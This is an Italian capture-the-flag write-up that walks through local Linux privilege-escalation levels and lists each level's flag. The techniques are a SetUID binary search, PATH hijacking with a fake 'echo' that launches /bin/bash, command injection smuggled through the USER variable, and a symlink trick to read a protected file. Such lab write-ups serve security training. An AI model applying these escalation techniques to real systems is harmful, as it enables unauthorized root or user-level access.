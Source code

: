 # BootsTrap
Appena si avvia la vm con l'iso compare la flag: `CCIT{72318565-c76d-4ed9-81b6-afc582e75777}`

# SetUID
```bash
find / -perm /u+s 2>/dev/null    # elimina le righe che ritornano autorizzazione negata.
/usr/share/nano/fishy            # Accesso a shell con autorizzazione dell'user flag01.
```
`CCIT{997874cf-581a-49ca-a449-51d24dd31fa5}`

# Arbitrary Command Exec
```bash
system("usr/bin/env echo ..."); 
```
Seguito dal nome di un programma esegue quel programma, quello sarebbe equivalente a bin/echo, in sostanza  cerca il primo eseguibile 
'echo' nelle directory configurate della PATH.

Si va su level01, si crea un file C echo.c:
```c
int main() { 
  system("/bin/bash"); 
}
```
```bash
gcc -o echo echo.c   # Cosi da avere l'eseguibile echo personalizzato.
```
Si procede a modificare la PATH:
```bash
export PATH=/home/level00:$PATH   # Cosi è la prima che viene letta, e con ./flag01 si ottiene la shell di flag01.
```
`CCIT{0fc0a412-4184-4c9d-af48-498f7bc713db}`


# Arbitrary Command Exec 2

Si ragiona nello stesso modo, soltando con USER, se proviamo:
```bash
export USER=poop   # ./flag02 -> poop is cool.
```
Ora serve solo concatenare piu istruzioni ad USER con ';'
```bash
export USER="poop; /bin/bash #"; ./flag02   # Ottengo la shell di flag02.
```
`CCIT{b5b43a28-962d-42ea-92b6-cefa552766a0}`

# Exit VIM
```
Basta usare i comandi :Sex, :./myvi -> Appare FlAg.TxT, CCIT{c1cd2007-55bb-4a40-9f91-21f5e2207db1}
```

# Read flag
Creare un symlinks: 
```bash
ln -s /home/flag04/flag.txt /home/level04/file.txt; ./flag04 /home/level04/file.txt.
```
`CCIT{4c886115-a6ca-4141-b0a2-69a25cadceaf}`
